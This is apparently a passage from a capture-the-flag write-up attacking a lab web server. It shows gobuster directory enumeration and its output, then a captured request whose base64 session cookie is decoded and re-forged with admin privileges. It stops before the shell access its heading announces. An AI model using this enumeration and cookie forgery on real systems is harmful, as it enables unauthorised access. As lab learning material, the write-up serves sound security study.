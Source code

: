   ```
  gobuster dir -u http://10.10.70.241:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /img                  (Status: 301) [Size: 173] [--> /img/]
  /login                (Status: 200) [Size: 2127]
  /css                  (Status: 301) [Size: 173] [--> /css/]
  /Login                (Status: 200) [Size: 2127]
  /IMG                  (Status: 301) [Size: 173] [--> /IMG/]
  /CSS                  (Status: 301) [Size: 173] [--> /CSS/]
  /Img                  (Status: 301) [Size: 173] [--> /Img/]
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- OK, so anything I visited from found directories was useless, so I start exploring with Burp and found that I already have Cookie assigned even though I haven't logged in yet.

  ```
  GET / HTTP/1.1
  Host: 10.10.70.241:8080
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Referer: http://10.10.70.241:8080/login
  Connection: keep-alive
  Cookie: session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D
  Upgrade-Insecure-Requests: 1
  If-None-Match: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
  Priority: u=0, i
  
  
  eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D
  {"username":"Guest","isGuest":true,"encoding": "utf-8"}%3D%3D
  ```

---

## 🌐 Web Exploitation & Shell Access

- I started experimenting with different payloads, first with admin.

  ```
  {"username":"admin","isAdmin":true,"encoding": "utf-8"}%3D%3D
  eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNBZG1pbiI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ== 
  %65%79%4a%31%63%32%56%79%62%6d%46%74%5a%53%49%36%49%6d%46%6b%62%57%6c%75%49%69%77%69%61%58%4e%42%5a%47%31%70%62%69%49%36%64%48%4a%31%5a%53%77%69%5a%57%35%6a%62%32%52%70%62%6d%63%69%4f%69%41%69%64%58%52%6d%4c%54%67%69%66%51%3d%3d
  ```
